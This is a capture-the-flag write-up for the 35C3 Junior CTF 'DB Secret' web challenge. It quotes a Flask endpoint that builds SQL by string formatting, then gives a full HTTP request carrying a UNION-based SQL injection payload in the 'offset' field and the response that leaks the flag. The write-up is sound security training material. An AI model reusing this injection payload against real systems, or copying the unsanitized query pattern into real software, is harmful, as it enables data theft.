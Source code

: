 # 35C3 Junior CTF – DB Secret

* **Category:** Web
* **Points:** 89 (variable)

## Challenge

> To enable secure microservices (or whatever, we don't know yet) over Wee in the future, we created a specific DB_SECRET, only known to us. This token is super important and extremely secret, hence the name. The only way an attacker could get hold of it is to serve good booze to the admins. Pretty sure it's otherwise well protected on our secure server.
>
> http://35.207.189.79/
>
> Difficulty Estimate: Medium
>
> ===============================================
>
> Good coders should learn one new language every year.
>
> InfoSec folks are even used to learn one new language for every new problem they face (YMMV).
>
> If you have not picked up a new challenge in 2018, you're in for a treat.
>
> We took the new and upcoming Wee programming language from paperbots.io. Big shout-out to Mario Zechner (@badlogicgames) at this point.
>
> Some cool Projects can be created in Wee, like: this, this and that.
>
> Since we already know Java, though, we ported the server (Server.java and Paperbots.java) to Python (WIP) and constantly add awesome functionality. Get the new open-sourced server at /pyserver/server.py.
>
> Anything unrelated to the new server is left unchanged from commit dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github (mirrored up to this commit here).
>
> We even added new features to this better server, like server-side Wee evaluation!
>
> To make server-side Wee the language of the future, we already implemented awesome runtime functions. To make sure our VM is 100% safe and secure, there are also assertion functions in server-side Wee that you don't have to be concerned about.

## Solution

Analyzing `http://35.207.189.79/pyserver/server.py` some interesting snippets can be discovered.

The vulnerable functionality is the following, because the query contains parameters replaced and not sanitized.

```Python
@app.route("/api/getprojectsadmin", methods=["POST"])
def getprojectsadmin():
    # ProjectsRequest request = ctx.bodyAsClass(ProjectsRequest.class);
    # ctx.json(paperbots.getProjectsAdmin(ctx.cookie("token"), request.sorting, request.dateOffset));
    name = request.cookies["name"]
    token = request.cookies["token"]
    user, username, email, usertype = user_by_token(token)

    json = request.get_json(force=True)
    offset = json["offset"]
    sorting = json["sorting"]

    if name != "admin":
        raise Exception("InvalidUserName")

    sortings = {
        "newest": "created DESC",
        "oldest": "created ASC",
        "lastmodified": "lastModified DESC"
    }
    sql_sorting = sortings[sorting]

    if not offset:
        offset = datetime.datetime.now()

    return jsonify_projects(query_db(
        "SELECT code, userName, title, public, type, lastModified, created, content FROM projects WHERE created < '{}' "
        "ORDER BY {} LIMIT 10".format(offset, sql_sorting), one=False), username, "admin")
```

To obtain the `token` value, a login with `admin` user must be performed. The `token` will be set into the cookies. The login can be performed like in the [Logged In challenge](https://github.com/m3ssap0/CTF-Writeups/tree/master/35C3%20Junior%20CTF/Logged%20In).

The `DB_SECRET` variable, with the flag, is stored in another table that can be discovered in the following function.

```Python
def init_db():
    with app.app_context():
        db = get_db()
        with open(MIGRATION_PATH, "r") as f:
            db.cursor().executescript(f.read())
        db.execute("CREATE TABLE `secrets`(`id` INTEGER PRIMARY KEY AUTOINCREMENT, `secret` varchar(255) NOT NULL)")
        db.execute("INSERT INTO secrets(secret) values(?)", (DB_SECRET,))
        db.commit()
```

At this point a SQL injection payload can be crafted and sent to the server. The complete request with SQL injection payload is the following.

```
POST http://35.207.189.79/api/getprojectsadmin HTTP/1.1
Accept-Encoding: gzip,deflate
Cookie: token=menuknmgxhnnhbckbdspzaommgyiecsz; name=admin; logged_in=35C3_LOG_ME_IN_LIKE_ONE_OF_YOUR_FRENCH_GIRLS
Content-Type: application/json
Content-Length: 141
Host: 35.207.189.79
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

{
	"offset" : "2018-12-25 00:00:00' UNION SELECT NULL, secret, NULL, NULL, NULL, NULL, NULL, NULL FROM secrets ---", 
	"sorting" : "newest"
}
```

The answer will be the following.

```
HTTP/1.1 200 OK
Server: nginx/1.13.12
Date: Sat, 29 Dec 2018 19:44:52 GMT
Content-Type: application/json
Content-Length: 187
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Content-Security-Policy: script-src 'self' 'unsafe-inline';
Referrer-Policy: no-referrer-when-downgrade
Feature-Policy: geolocation 'self'; midi 'self'; sync-xhr 'self'; microphone 'self'; camera 'self'; magnetometer 'self'; gyroscope 'self'; speaker 'self'; fullscreen *; payment 'self';

[{"code":null,"content":null,"created":null,"lastModified":null,"public":null,"title":null,"type":null,"userName":"35C3_ALL_THESE_YEARS_AND_WE_STILL_HAVE_INJECTIONS_EVERYWHERE__HOW???"}]
```

So, the flag is the following.

```
35C3_ALL_THESE_YEARS_AND_WE_STILL_HAVE_INJECTIONS_EVERYWHERE__HOW???
```